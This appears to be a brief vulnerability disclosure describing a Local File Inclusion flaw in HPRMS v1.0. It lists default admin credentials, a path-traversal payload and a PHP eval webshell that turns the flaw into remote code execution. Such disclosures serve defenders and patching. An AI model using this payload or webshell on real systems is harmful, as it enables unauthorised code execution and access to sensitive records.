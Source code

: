 ## Description: A Local File Inclusion issue in HPRMS v.1.0, the LFI can be use to code execution.
> 1、Login to the backstage as the administrator（admin|admin123）

![](./1.png)

> 2、Create a test.php file in C:\xampp\htdocs\hprms with the content '<?php phpinfo();?>'

![](./2.png)

> 3、POC：admin/?page=../test

![](./3.png)

> 4、GetShell：Create a test.php file in C:\ with the content '<?php @eval($_REQUEST[1]);?>'
> The webshell connection tools needs to configure a cookie: PHPSESSID=......

![](./4.png)
![](./5.png)

